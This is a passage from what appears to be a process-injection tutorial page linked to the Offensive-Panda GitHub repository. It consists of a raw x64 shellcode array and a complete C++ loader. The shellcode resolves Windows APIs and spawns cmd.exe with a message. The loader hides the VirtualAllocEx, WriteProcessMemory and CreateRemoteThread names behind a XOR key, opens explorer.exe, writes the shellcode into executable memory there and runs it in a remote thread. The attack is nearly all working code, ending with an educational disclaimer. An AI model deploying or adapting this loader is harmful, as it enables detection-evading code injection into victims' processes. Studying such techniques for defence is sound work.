	0x85, 0xA8, 0x01, 0x00, 0x00, 0x8B, 0x40, 0x20, 0x48, 0x8B, 0x8D, 0x98,
	0x01, 0x00, 0x00, 0x48, 0x03, 0xC8, 0x48, 0x8B, 0xC1, 0x48, 0x89, 0x85,
	0xB0, 0x01, 0x00, 0x00, 0x48, 0xB8, 0x47, 0x65, 0x74, 0x50, 0x72, 0x6F,
	0x63, 0x41, 0x48, 0x89, 0x45, 0x10, 0xC7, 0x85, 0xB8, 0x01, 0x00, 0x00,
	0x00, 0x00, 0x00, 0x00, 0x48, 0x63, 0x85, 0xB8, 0x01, 0x00, 0x00, 0x48,
	0x8B, 0x8D, 0xB0, 0x01, 0x00, 0x00, 0x48, 0x63, 0x04, 0x81, 0x48, 0x8B,
	0x8D, 0x98, 0x01, 0x00, 0x00, 0x48, 0x8B, 0x55, 0x10, 0x48, 0x39, 0x14,
	0x01, 0x74, 0x10, 0x8B, 0x85, 0xB8, 0x01, 0x00, 0x00, 0xFF, 0xC0, 0x89,
	0x85, 0xB8, 0x01, 0x00, 0x00, 0xEB, 0xCD, 0x48, 0x8B, 0x85, 0xA8, 0x01,
	0x00, 0x00, 0x8B, 0x40, 0x24, 0x48, 0x8B, 0x8D, 0x98, 0x01, 0x00, 0x00,
	0x48, 0x03, 0xC8, 0x48, 0x8B, 0xC1, 0x48, 0x89, 0x85, 0xC0, 0x01, 0x00,
	0x00, 0x48, 0x8B, 0x85, 0xA8, 0x01, 0x00, 0x00, 0x8B, 0x40, 0x1C, 0x48,
	0x8B, 0x8D, 0x98, 0x01, 0x00, 0x00, 0x48, 0x03, 0xC8, 0x48, 0x8B, 0xC1,
	0x48, 0x89, 0x85, 0xC8, 0x01, 0x00, 0x00, 0x48, 0x63, 0x85, 0xB8, 0x01,
	0x00, 0x00, 0x48, 0x8B, 0x8D, 0xC0, 0x01, 0x00, 0x00, 0x48, 0x0F, 0xBF,
	0x04, 0x41, 0x48, 0x8B, 0x8D, 0xC8, 0x01, 0x00, 0x00, 0x48, 0x63, 0x04,
	0x81, 0x48, 0x8B, 0x8D, 0x98, 0x01, 0x00, 0x00, 0x48, 0x03, 0xC8, 0x48,
	0x8B, 0xC1, 0x48, 0x89, 0x85, 0xD0, 0x01, 0x00, 0x00, 0x48, 0x8B, 0x85,
	0x98, 0x01, 0x00, 0x00, 0x48, 0x89, 0x85, 0xD8, 0x01, 0x00, 0x00, 0x48,
	0x8B, 0x85, 0x78, 0x01, 0x00, 0x00, 0x48, 0x89, 0x85, 0xE0, 0x01, 0x00,
	0x00, 0x48, 0x8B, 0x85, 0xE0, 0x01, 0x00, 0x00, 0xC7, 0x80, 0x14, 0x01,
	0x00, 0x00, 0xFF, 0xFF, 0xFF, 0xFF, 0x48, 0x8B, 0x85, 0x78, 0x01, 0x00,
	0x00, 0x48, 0x8B, 0x40, 0x30, 0x48, 0x89, 0x85, 0xE8, 0x01, 0x00, 0x00,
	0x48, 0xB8, 0x4C, 0x6F, 0x61, 0x64, 0x4C, 0x69, 0x62, 0x72, 0x48, 0x89,
	0x45, 0x10, 0x48, 0xC7, 0x45, 0x18, 0x61, 0x72, 0x79, 0x41, 0x48, 0x8D,
	0x55, 0x10, 0x48, 0x8B, 0x8D, 0xD8, 0x01, 0x00, 0x00, 0xFF, 0x95, 0xD0,
	0x01, 0x00, 0x00, 0x48, 0x89, 0x85, 0xF0, 0x01, 0x00, 0x00, 0x48, 0xB8,
	0x52, 0x74, 0x6C, 0x41, 0x6C, 0x6C, 0x6F, 0x63, 0x48, 0x89, 0x45, 0x10,
	0x48, 0xB8, 0x61, 0x74, 0x65, 0x48, 0x65, 0x61, 0x70, 0x00, 0x48, 0x89,
	0x45, 0x18, 0x48, 0x8D, 0x55, 0x10, 0x48, 0x8B, 0x8D, 0xE8, 0x01, 0x00,
	0x00, 0xFF, 0x95, 0xD0, 0x01, 0x00, 0x00, 0x48, 0x89, 0x85, 0xF8, 0x01,
	0x00, 0x00, 0x48, 0xB8, 0x52, 0x74, 0x6C, 0x43, 0x72, 0x65, 0x61, 0x74,
	0x48, 0x89, 0x45, 0x38, 0x48, 0xB8, 0x65, 0x50, 0x72, 0x6F, 0x63, 0x65,
	0x73, 0x73, 0x48, 0x89, 0x45, 0x40, 0x48, 0xB8, 0x50, 0x61, 0x72, 0x61,
	0x6D, 0x65, 0x74, 0x65, 0x48, 0x89, 0x45, 0x48, 0x48, 0xC7, 0x45, 0x50,
	0x72, 0x73, 0x45, 0x78, 0x48, 0x8D, 0x55, 0x38, 0x48, 0x8B, 0x8D, 0xE8,
	0x01, 0x00, 0x00, 0xFF, 0x95, 0xD0, 0x01, 0x00, 0x00, 0x48, 0x89, 0x85,
	0x00, 0x02, 0x00, 0x00, 0x48, 0xB8, 0x4E, 0x74, 0x43, 0x72, 0x65, 0x61,
	0x74, 0x65, 0x48, 0x89, 0x45, 0x20, 0x48, 0xB8, 0x55, 0x73, 0x65, 0x72,
	0x50, 0x72, 0x6F, 0x63, 0x48, 0x89, 0x45, 0x28, 0x48, 0xC7, 0x45, 0x30,
	0x65, 0x73, 0x73, 0x00, 0x48, 0x8D, 0x55, 0x20, 0x48, 0x8B, 0x8D, 0xE8,
	0x01, 0x00, 0x00, 0xFF, 0x95, 0xD0, 0x01, 0x00, 0x00, 0x48, 0x89, 0x85,
	0x08, 0x02, 0x00, 0x00, 0x48, 0xB8, 0x52, 0x74, 0x6C, 0x49, 0x6E, 0x69,
	0x74, 0x55, 0x48, 0x89, 0x45, 0x20, 0x48, 0xB8, 0x6E, 0x69, 0x63, 0x6F,
	0x64, 0x65, 0x53, 0x74, 0x48, 0x89, 0x45, 0x28, 0x48, 0xC7, 0x45, 0x30,
	0x72, 0x69, 0x6E, 0x67, 0x48, 0x8D, 0x55, 0x20, 0x48, 0x8B, 0x8D, 0xE8,
	0x01, 0x00, 0x00, 0xFF, 0x95, 0xD0, 0x01, 0x00, 0x00, 0x48, 0x89, 0x85,
	0x10, 0x02, 0x00, 0x00, 0x48, 0xB8, 0x5C, 0x00, 0x3F, 0x00, 0x3F, 0x00,
	0x5C, 0x00, 0x48, 0x89, 0x45, 0x60, 0x48, 0xB8, 0x43, 0x00, 0x3A, 0x00,
	0x5C, 0x00, 0x57, 0x00, 0x48, 0x89, 0x45, 0x68, 0x48, 0xB8, 0x69, 0x00,
	0x6E, 0x00, 0x64, 0x00, 0x6F, 0x00, 0x48, 0x89, 0x45, 0x70, 0x48, 0xB8,
	0x77, 0x00, 0x73, 0x00, 0x5C, 0x00, 0x53, 0x00, 0x48, 0x89, 0x45, 0x78,
	0x48, 0xB8, 0x79, 0x00, 0x73, 0x00, 0x74, 0x00, 0x65, 0x00, 0x48, 0x89,
	0x85, 0x80, 0x00, 0x00, 0x00, 0x48, 0xB8, 0x6D, 0x00, 0x33, 0x00, 0x32,
	0x00, 0x5C, 0x00, 0x48, 0x89, 0x85, 0x88, 0x00, 0x00, 0x00, 0x48, 0xB8,
	0x63, 0x00, 0x6D, 0x00, 0x64, 0x00, 0x2E, 0x00, 0x48, 0x89, 0x85, 0x90,
	0x00, 0x00, 0x00, 0x48, 0xB8, 0x65, 0x00, 0x78, 0x00, 0x65, 0x00, 0x00,
	0x00, 0x48, 0x89, 0x85, 0x98, 0x00, 0x00, 0x00, 0x48, 0x8D, 0x55, 0x60,
	0x48, 0x8D, 0x8D, 0x18, 0x02, 0x00, 0x00, 0xFF, 0x95, 0x10, 0x02, 0x00,
	0x00, 0x48, 0xB8, 0x5C, 0x00, 0x3F, 0x00, 0x3F, 0x00, 0x5C, 0x00, 0x48,
	0x89, 0x85, 0xA0, 0x00, 0x00, 0x00, 0x48, 0xB8, 0x43, 0x00, 0x3A, 0x00,
	0x5C, 0x00, 0x57, 0x00, 0x48, 0x89, 0x85, 0xA8, 0x00, 0x00, 0x00, 0x48,
	0xB8, 0x69, 0x00, 0x6E, 0x00, 0x64, 0x00, 0x6F, 0x00, 0x48, 0x89, 0x85,
	0xB0, 0x00, 0x00, 0x00, 0x48, 0xB8, 0x77, 0x00, 0x73, 0x00, 0x5C, 0x00,
	0x53, 0x00, 0x48, 0x89, 0x85, 0xB8, 0x00, 0x00, 0x00, 0x48, 0xB8, 0x79,
	0x00, 0x73, 0x00, 0x74, 0x00, 0x65, 0x00, 0x48, 0x89, 0x85, 0xC0, 0x00,
	0x00, 0x00, 0x48, 0xB8, 0x6D, 0x00, 0x33, 0x00, 0x32, 0x00, 0x5C, 0x00,
	0x48, 0x89, 0x85, 0xC8, 0x00, 0x00, 0x00, 0x48, 0xB8, 0x63, 0x00, 0x6D,
	0x00, 0x64, 0x00, 0x2E, 0x00, 0x48, 0x89, 0x85, 0xD0, 0x00, 0x00, 0x00,
	0x48, 0xB8, 0x65, 0x00, 0x78, 0x00, 0x65, 0x00, 0x20, 0x00, 0x48, 0x89,
	0x85, 0xD8, 0x00, 0x00, 0x00, 0x48, 0xB8, 0x2F, 0x00, 0x6B, 0x00, 0x20,
	0x00, 0x6D, 0x00, 0x48, 0x89, 0x85, 0xE0, 0x00, 0x00, 0x00, 0x48, 0xB8,
	0x73, 0x00, 0x67, 0x00, 0x20, 0x00, 0x2A, 0x00, 0x48, 0x89, 0x85, 0xE8,
	0x00, 0x00, 0x00, 0x48, 0xB8, 0x20, 0x00, 0x48, 0x00, 0x65, 0x00, 0x6C,
	0x00, 0x48, 0x89, 0x85, 0xF0, 0x00, 0x00, 0x00, 0x48, 0xB8, 0x6C, 0x00,
	0x6F, 0x00, 0x20, 0x00, 0x66, 0x00, 0x48, 0x89, 0x85, 0xF8, 0x00, 0x00,
	0x00, 0x48, 0xB8, 0x72, 0x00, 0x6F, 0x00, 0x6D, 0x00, 0x20, 0x00, 0x48,
	0x89, 0x85, 0x00, 0x01, 0x00, 0x00, 0x48, 0xB8, 0xF4, 0x00, 0x66, 0x00,
	0x66, 0x00, 0x65, 0x00, 0x48, 0x89, 0x85, 0x08, 0x01, 0x00, 0x00, 0x48,
	0xB8, 0x6E, 0x00, 0x73, 0x00, 0x69, 0x00, 0x76, 0x00, 0x48, 0x89, 0x85,
	0x10, 0x01, 0x00, 0x00, 0x48, 0xB8, 0x65, 0x00, 0x20, 0x00, 0x50, 0x00,
	0x61, 0x00, 0x48, 0x89, 0x85, 0x18, 0x01, 0x00, 0x00, 0x48, 0xB8, 0x6E,
	0x00, 0x64, 0x00, 0x61, 0x00, 0x00, 0x00, 0x48, 0x89, 0x85, 0x20, 0x01,
	0x00, 0x00, 0x48, 0xC7, 0x85, 0x28, 0x01, 0x00, 0x00, 0x00, 0x00, 0x00,
	0x00, 0x48, 0x8D, 0x95, 0xA0, 0x00, 0x00, 0x00, 0x48, 0x8D, 0x8D, 0x28,
	0x02, 0x00, 0x00, 0xFF, 0x95, 0x10, 0x02, 0x00, 0x00, 0x48, 0xC7, 0x85,
	0x38, 0x02, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0xC7, 0x44, 0x24, 0x50,
	0x01, 0x00, 0x00, 0x00, 0x48, 0xC7, 0x44, 0x24, 0x48, 0x00, 0x00, 0x00,
	0x00, 0x48, 0xC7, 0x44, 0x24, 0x40, 0x00, 0x00, 0x00, 0x00, 0x48, 0xC7,
	0x44, 0x24, 0x38, 0x00, 0x00, 0x00, 0x00, 0x48, 0xC7, 0x44, 0x24, 0x30,
	0x00, 0x00, 0x00, 0x00, 0x48, 0xC7, 0x44, 0x24, 0x28, 0x00, 0x00, 0x00,
	0x00, 0x48, 0x8D, 0x85, 0x28, 0x02, 0x00, 0x00, 0x48, 0x89, 0x44, 0x24,
	0x20, 0x45, 0x33, 0xC9, 0x45, 0x33, 0xC0, 0x48, 0x8D, 0x95, 0x18, 0x02,
	0x00, 0x00, 0x48, 0x8D, 0x8D, 0x38, 0x02, 0x00, 0x00, 0xFF, 0x95, 0x00,
	0x02, 0x00, 0x00, 0x48, 0x8D, 0x85, 0x40, 0x02, 0x00, 0x00, 0x48, 0x8B,
	0xF8, 0x33, 0xC0, 0xB9, 0x58, 0x00, 0x00, 0x00, 0xF3, 0xAA, 0x48, 0xC7,
	0x85, 0x40, 0x02, 0x00, 0x00, 0x58, 0x00, 0x00, 0x00, 0xC7, 0x85, 0x48,
	0x02, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0xB8, 0x08, 0x00, 0x00, 0x00,
	0x48, 0x6B, 0xC0, 0x01, 0x41, 0xB8, 0x20, 0x00, 0x00, 0x00, 0xBA, 0x08,
	0x00, 0x00, 0x00, 0x48, 0x8B, 0x4D, 0x00, 0x48, 0x8B, 0x4C, 0x01, 0x28,
	0xFF, 0x95, 0xF8, 0x01, 0x00, 0x00, 0x48, 0x89, 0x85, 0xA0, 0x02, 0x00,
	0x00, 0x48, 0x8B, 0x85, 0xA0, 0x02, 0x00, 0x00, 0x48, 0xC7, 0x00, 0x28,
	0x00, 0x00, 0x00, 0xB8, 0x20, 0x00, 0x00, 0x00, 0x48, 0x6B, 0xC0, 0x00,
	0x48, 0x8B, 0x8D, 0xA0, 0x02, 0x00, 0x00, 0xC7, 0x44, 0x01, 0x08, 0x05,
	0x00, 0x02, 0x00, 0xB8, 0x20, 0x00, 0x00, 0x00, 0x48, 0x6B, 0xC0, 0x00,
	0x0F, 0xB7, 0x8D, 0x18, 0x02, 0x00, 0x00, 0x48, 0x8B, 0x95, 0xA0, 0x02,
	0x00, 0x00, 0x48, 0x89, 0x4C, 0x02, 0x10, 0xB8, 0x20, 0x00, 0x00, 0x00,
	0x48, 0x6B, 0xC0, 0x00, 0x48, 0x8B, 0x8D, 0xA0, 0x02, 0x00, 0x00, 0x48,
	0x8B, 0x95, 0x20, 0x02, 0x00, 0x00, 0x48, 0x89, 0x54, 0x01, 0x18, 0x48,
	0xC7, 0x85, 0xB0, 0x02, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x48, 0x8B,
	0x85, 0xA0, 0x02, 0x00, 0x00, 0x48, 0x89, 0x44, 0x24, 0x50, 0x48, 0x8D,
	0x85, 0x40, 0x02, 0x00, 0x00, 0x48, 0x89, 0x44, 0x24, 0x48, 0x48, 0x8B,
	0x85, 0x38, 0x02, 0x00, 0x00, 0x48, 0x89, 0x44, 0x24, 0x40, 0xC7, 0x44,
	0x24, 0x38, 0x00, 0x00, 0x00, 0x00, 0xC7, 0x44, 0x24, 0x30, 0x00, 0x00,
	0x00, 0x00, 0x48, 0xC7, 0x44, 0x24, 0x28, 0x00, 0x00, 0x00, 0x00, 0x48,
	0xC7, 0x44, 0x24, 0x20, 0x00, 0x00, 0x00, 0x00, 0x41, 0xB9, 0xFF, 0xFF,
	0x1F, 0x00, 0x41, 0xB8, 0xFF, 0xFF, 0x1F, 0x00, 0x48, 0x8D, 0x95, 0xB0,
	0x02, 0x00, 0x00, 0x48, 0x8D, 0x8D, 0xA8, 0x02, 0x00, 0x00, 0xFF, 0x95,
	0x08, 0x02, 0x00, 0x00, 0x89, 0x85, 0xB8, 0x02, 0x00, 0x00, 0x48, 0xB8,
	0x4E, 0x74, 0x53, 0x75, 0x73, 0x70, 0x65, 0x6E, 0x48, 0x89, 0x45, 0x10,
	0x48, 0xB8, 0x64, 0x54, 0x68, 0x72, 0x65, 0x61, 0x64, 0x00, 0x48, 0x89,
	0x45, 0x18, 0x48, 0x8D, 0x55, 0x10, 0x48, 0x8B, 0x8D, 0xE8, 0x01, 0x00,
	0x00, 0xFF, 0x95, 0xD0, 0x01, 0x00, 0x00, 0x48, 0x89, 0x85, 0xC0, 0x02,
	0x00, 0x00, 0x33, 0xD2, 0x48, 0xC7, 0xC1, 0xFE, 0xFF, 0xFF, 0xFF, 0xFF,
	0x95, 0xC0, 0x02, 0x00, 0x00, 0x48, 0x8D, 0xA5, 0x58, 0x03, 0x00, 0x00,
	0x5F, 0x5D, 0xC3 };

unsigned int sc_len = sizeof(sc);
const char* key = "offensivepanda";
size_t k_len = strlen(key);

HANDLE GetProcessHandleByName(const std::wstring& processName) {
	HANDLE hProcess = nullptr;
	PROCESSENTRY32W pe32;
	pe32.dwSize = sizeof(PROCESSENTRY32W);

	auto snapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
	if (snapshot == INVALID_HANDLE_VALUE) return nullptr;

	if (Process32FirstW(snapshot, &pe32)) {
		do {
			if (processName == pe32.szExeFile) {
				hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, pe32.th32ProcessID);
				break;
			}
		} while (Process32NextW(snapshot, &pe32));
	}

	CloseHandle(snapshot);
	return hProcess;
}

int main(int argc, char* argv[]) {
	HANDLE hthread; // remote thread handle
	HANDLE handle; // process handle 
	HMODULE library = NULL;
	LPVOID my_sc_mem; // pointer to remote buffer for payload
	VAExType pVAEx;
	WPMType pWPM;
	CRTType pCRT;

	std::wstring pName = L"explorer.exe";  // Note the 'L' prefix for wide strings
	HANDLE hProcess = GetProcessHandleByName(pName);

	library = GetModuleHandle(L"kernel32.dll");
	unsigned char sVAEx[] = { 0x39, 0x0f, 0x14, 0x11, 0x1b, 0x12, 0x05, 0x37, 0x09, 0x1c, 0x0e, 0x0d, 0x21, 0x19 };
	unsigned char sWPM[] = { 0x38, 0x14, 0x0f, 0x11, 0x0b, 0x23, 0x1b, 0x19, 0x06, 0x15, 0x12, 0x1d, 0x29, 0x04, 0x02, 0x09, 0x14, 0x1c };
	unsigned char sCRT[] = { 0x2c, 0x14, 0x03, 0x04, 0x1a, 0x16, 0x3b, 0x13, 0x08, 0x1f, 0x15, 0x0b, 0x30, 0x09, 0x1d, 0x03, 0x07, 0x01 };
	LPCSTR A = DAndP(sVAEx, sizeof(sVAEx), key, k_len);
	LPCSTR B = DAndP(sWPM, sizeof(sWPM), key, k_len);
	LPCSTR C = DAndP(sCRT, sizeof(sCRT), key, k_len);
	pVAEx = (VAExType)GetProcAddress(library, (LPCSTR)A);
	pWPM = (WPMType)GetProcAddress(library, (LPCSTR)B);
	pCRT = (CRTType)GetProcAddress(library, (LPCSTR)C);

	if (hProcess) {
		std::wcout << L"Handle to " << pName << ": " << hProcess << std::endl;

		// Allocate a memory buffer for payload with permission RWX
		my_sc_mem = pVAEx(hProcess, 0, sc_len, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);

		// copy payload to allocated buffer using WriteProcessMemory()
		pWPM(hProcess, my_sc_mem, sc, sc_len, NULL);


		// run shellcode
		hthread = pCRT(hProcess, NULL, 0, (LPTHREAD_START_ROUTINE)my_sc_mem, NULL, 0, NULL);
		if (hthread != NULL) {
			WaitForSingleObject(hthread, 500);
			CloseHandle(hthread);
		}

		CloseHandle(hProcess);  // Close the handle when done
	}
	else {
		std::cerr << "Failed to obtain process handle.\n";
	}

	return 0;
}
```
## After and Before Obfuscation
<p align="center">
  
  
</p>

## Demonstration


For GitHub-Repo Click Here: [Offensive-Panda/ProcessInjectionTechniques](https://github.com/Offensive-Panda/ProcessInjectionTechniques/tree/main/Classic_Code_Injection_API_Obfuscate/Classic_Code_Injection_API_Obfuscate)

### Disclaimer
The content provided on this series is for educational and informational purposes only. It is intended to help users understand cybersecurity concepts and techniques for improving security defenses!
